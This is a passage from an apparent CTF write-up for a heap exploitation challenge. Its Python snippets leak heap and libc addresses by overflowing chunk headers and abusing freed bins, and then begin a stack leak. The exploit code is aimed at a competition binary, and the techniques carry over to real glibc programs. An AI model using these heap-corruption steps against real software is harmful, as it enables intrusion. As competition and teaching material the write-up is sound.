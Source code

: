 
After that we can leak the heap by allocate and free the chunk.

```python
alloc(0, 0x18, b"A")
free(0)
view(0)
heap_leak = demangle(u64(rl().strip().ljust(8, b"\x00")))
heap = heap_leak & ~0xfff
```

For the libc we can use bins at `0xf0`, so overflow and overwrite the next chunk header then free it to get `unsortedbins` after that we can just view. 

```python
alloc(0, 0x28, b"A")
alloc(1, 0x28, p64(0x21)*2)
for i in range(5):
    alloc(2, 0x28, p64(0x21)*2)
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\xf1") #Overwrite next chunk header
free(1)
view(1)

libc_leak = u64(rl().strip().ljust(8, b"\x00"))
libc.address = libc_leak - (libc.sym["main_arena"] + 96)
```

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/Overflow.png)


After leaking the heap & libc i decided to leak the stack too by making chunk with `0x30` then overwrite it to `0x40` to be free so it doesn't touch the tcache.

```python
alloc(0, 0x28, p64(0x21)*3 + b"\x31")
alloc(1, 0x28, p64(0x21)*3 + b"\x31")
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\x41")
alloc(0, 0x28, p64(0x21)*3 + b"\x31")

alloc(0, 0x28, p64(0x21)*3 + b"\x31")
alloc(2, 0x28, p64(0x21)*3 + b"\x31")
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\x41")
alloc(0, 0x28, p64(0x21)*3 + b"\x31")
```

